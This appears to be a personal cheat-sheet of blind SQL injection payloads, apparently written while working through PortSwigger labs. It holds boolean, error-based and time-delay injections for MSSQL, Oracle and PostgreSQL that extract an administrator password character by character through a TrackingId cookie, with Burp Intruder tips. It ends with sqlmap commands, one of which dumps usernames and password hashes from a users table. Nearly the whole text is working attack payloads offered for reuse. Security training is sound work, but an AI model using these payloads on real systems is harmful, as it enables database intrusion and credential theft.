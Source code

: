 ```
TrackingId =u5YD3PapBcR4lN3e7Tj4' AND '1'='1    #Test w/ a condition based injection (True or False)

' IF (1=1) WAITFOR DELAY '0:0:10';--  #Evaluates to true and waits 10 secs (Time Delay based)

' IF ((select count(name) from sys.tables where name = 'users')=1) WAITFOR DELAY '0:0:10';--  #This query uses Boolean to guess the table name of a database

' IF ((select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' and c.name = 'username')=1) WAITFOR DELAY '0:0:10';-- #This query uses Boolean to guess the column name of a table

TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a #This query verifies there is table called users.

TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a  #Checks for password length

TrackingId=xyz' AND (SELECT SUBSTRING(password,3,1) FROM users WHERE username='administrator')='§a§  #Use with Burp Sniper, a Simple List Payload, and Grep Match to find the password one character at a time incrementing to total length.

TrackingId =u5YD3PapBcR4lN3e7Tj4' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm #This query checks to narrow the first letter of the 'Admin' password

# Blind Oracle sqli (https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)
 TrackingId=Vqg7K1mFWH8hNMMb'||(SELECT+CASE+WHEN+SUBSTR(password,§1§,1)='§a§'+THEN+TO_CHAR(1/0)+ELSE+NULL+END+FROM+users+WHERE+username%3d+'administrator')||'  # Used Burp Cluster bomb to iterate through the length of the password and simplelist.

 #Time-Delay SQLi

 TrackingId=jSeXZLJoesz7M9ZH'||pg_sleep(10)--   #The key here is to conactenat the normal query w/ the sleep payload as it is generally processed synchronously by the application.

TrackingId='%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--   # Validate the payload still works for the delay.

TrackingId='%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--; # Check for 'administrator' in the 'users' table

TrackingId='%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password) >19)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--  # Check length of PW.

TrackingId='%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,20,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--  #Use Sniper to retrieve PW.

# Post
./sqlmap.py -r search-test.txt -p tfUPass  #<-p> is the parameter to test in the file
[From Burp to confirm] POST /issue/checkByPriority?priority=Normal'+UNION+SELECT+sleep(5);+--+- HTTP/1.1

sqlmap -r post.login.req --threads=1 --time-sec=1 --level=5 --risk=3 --dbms=mssql -T users -C username,password_hash --random-agent --batch --dump

# Get
sqlmap -u "http://10.11.1.111/index.php?id=1" --dbms=mysql

# Crawl
sqlmap -u http://10.11.1.111 --dbms=mysql --crawl=3

# Full auto - THE GOOD ONE
```
